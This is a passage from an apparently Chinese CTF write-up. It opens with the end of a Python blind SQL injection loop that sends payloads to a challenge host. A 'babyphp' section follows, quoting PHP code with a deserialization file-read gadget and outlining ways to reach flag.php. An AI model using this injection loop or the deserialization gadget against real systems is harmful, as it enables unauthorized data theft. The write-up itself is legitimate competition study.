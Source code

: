 ```python
        res=requests.post("http://c957eb4253fb4275856dc45eb06d11ab05103bcf405348ab.changame.ichunqiu.com/index.php",data={"id":sql})
        print(sql)
        if "Hello Nu1L" in res.text:
            result+=chr(ord(i)-1)
            print(result)
            ended=False
            break
    if ended:
        break

```





### babyphp



```
class info:__call 
public function __call($name,$argument){//反序列化
        echo $this->CtrlCase->login($argument[0]);
    }
```

flag在flag.php中

文件读取点:



```php
class User
public function __destruct(){//任意读
        return file_get_contents($this->nickname);//危
    }
```



```php
if($_SESSION['login']===1){
	require_once("flag.php");
	echo $flag;
}
```

现在有两种思路:

1. 反序列化读取文件
2. sql注入拿到管理原密码,来读取文件(x)

无论想干啥都得先登陆,但是不知道咋登陆

考虑反序列化

如果我们成功登陆,攻击入口就是update.php
